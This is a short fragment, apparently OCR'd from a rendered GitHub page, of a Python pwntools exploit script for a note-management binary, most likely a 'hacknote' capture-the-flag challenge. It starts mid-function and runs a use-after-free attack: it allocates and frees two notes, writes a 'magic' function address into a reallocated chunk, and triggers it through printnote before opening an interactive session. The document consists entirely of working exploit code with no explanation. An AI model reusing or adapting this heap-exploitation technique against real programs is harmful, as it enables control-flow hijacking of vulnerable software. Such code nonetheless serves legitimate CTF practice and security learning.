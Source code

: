 ```python
    r.sendline("2")

    r.recvuntil(":")

    r.sendline(str(idx))





def printnote(idx):

    r.recvuntil(":")

    r.sendline("3")

    r.recvuntil(":")

    r.sendline(str(idx))





#gdb.attach(r)

magic = 0x08048986



addnote(32, "aaaa") # add note 0

addnote (32, &quot;daa&quot;) # add note 1


delnote(0) # delete note 0

delnote(1) # delete note 1


addnote(8, p32(magic)) # add note 2



printnote(0) # print note 0



r.interactive()

```
